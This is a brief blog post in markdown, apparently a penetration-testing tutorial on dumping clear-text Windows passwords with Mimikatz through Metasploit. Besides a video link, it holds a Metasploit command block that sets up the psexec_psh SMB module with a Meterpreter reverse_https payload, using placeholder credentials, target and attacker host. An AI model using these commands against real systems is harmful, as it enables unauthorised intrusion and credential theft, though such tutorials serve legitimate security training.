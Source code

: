 ```yaml
---
layout: post
title: "Mimikatz"
subtitle: "Dumping clear text passwords."
date: 2016-08-11
background: '/PATH_TO_IMAGE'
---
```


# Mikatz - Dumping clear text passwords

## This video will show you how to dump clear text passwords using the mimikatz post module within Metasploit.


<video width="720" height="405" autoplay controls  poster="">
	<source src="http://s1.webmshare.com/Vz1aj.webm" type="video/webm">
	Your browser does not support the video tag or the file format of this video. <a href="http://www.webestools.com/">http://www.webestools.com/</a>
</video>

```
use exploit/windows/smb/psexec_psh
set payload windows/meterpreter/reverse_https
set smbuser <username>
set smbpass <password/hash>
set smbdomain <domain>
set RHOST <remote-ip>
set LHOST <local-machine>
```
